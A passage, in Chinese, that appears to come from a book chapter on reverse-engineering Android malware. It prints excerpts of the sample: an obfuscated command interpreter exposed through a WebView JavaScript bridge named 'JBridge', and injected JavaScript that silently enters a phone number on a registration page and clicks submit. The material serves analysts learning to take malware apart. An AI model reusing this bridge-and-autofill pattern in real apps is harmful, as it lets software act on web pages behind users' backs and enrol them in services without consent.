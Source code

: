 
*清单 3-29：设置 JavaScript 接口以操作注册页面*

`addJavascriptInterface`传递的第一个参数是一个 Java 对象，它可以从加载到 WebView 中的网站访问。第二个参数是该对象在 JavaScript 中应赋予的名称。JavaScript 代码可以使用这个名称来引用该对象并调用定义在该对象中的方法。在恶意软件中，这个名称就是`JBridge`。

Java 类`zse4`定义了 JavaScript 桥接对象，它只有一个用`@JavascriptInterface`装饰器标记的方法，即`call`方法。只有标记了这个装饰器的方法才能从 JavaScript 访问，因此这是恶意软件的 JavaScript 部分可以调用的唯一方法。在`call`方法内部，有一长串`if...else`语句，这在恶意软件中通常表示一个解释命令的代码段。找到恶意软件的命令解释器是逆向工程师的宝藏，因为它能让他们看到哪些命令由哪些代码支持。这帮助逆向工程师迅速理解恶意功能的大部分内容。

根据`call`方法的参数，我们已经可以看到第一个参数是命令名称，第二个参数是命令选项。长串的`if...else`链检查命令名称，并根据命令调用不同的代码来执行。该功能的部分代码在清单 3-30 中显示。

```
if (str.equals(vgy7.vgy7.vgy7.vgy7.vgy7.yhn6)) {
  vgy7.this.vgy7(Integer.parseInt(str2), 0);
} else if (str.equals(vgy7.vgy7.vgy7.vgy7.vgy7.tgb5)) {
  vgy7.this.vgy7(302, Integer.parseInt(str2));
} else if (str.equals(vgy7.vgy7.vgy7.vgy7.vgy7.qwe1)) {
  vgy7.vgy7.vgy7.vgy7.bhu8.nji9(str2);
} else if (str.equals(vgy7.vgy7.vgy7.vgy7.vgy7.ujm7)) {
  vgy7.this.vgy7(302, 80014);
  return vgy7.this.bhu8.bhu8(str2, 60007);
```

*清单 3-30：在 zse4 类中处理 JavaScript 命令*

在这段代码中，`str`参数依次与字符串值`finish`、`schedule`、`textTo`和`popMsg`进行比较。跟踪`if`语句内部调用的方法可以揭示支撑这些命令的代码。

#### ***与 Java 桥接对象的交互***

现在你已经了解了 JavaScript 桥接对象的 Java 实现，接下来仔细查看下载的 JavaScript 命令，见清单 3-31。

```
try {
  window.JBridge.call('log', 'v1');
  var phone_input = document.querySelector('#phone-input');
  var phone_submit = document.querySelector('#phone-continue-button');
  if (phone_input != null && phone_input.offsetHeight > 0) {
    window.JBridge.call('log', '  phone');
    phone_input.value = '0' + '214137764';
    window.JBridge.call('log', '214137764');
    var event = document.createEvent('HTMLEvents');
    event.initEvent('input', true, true);
    phone_input.dispatchEvent(event);
    phone_submit.click();
    nextThings();
  } else {
    window.JBridge.call('log', 'no phone input');
    window.JBridge.call('finish', '306');
  }
} catch (e) {
  window.JBridge.call('log', 'click error:' + e);
  window.JBridge.call('finish', '304');
}
```
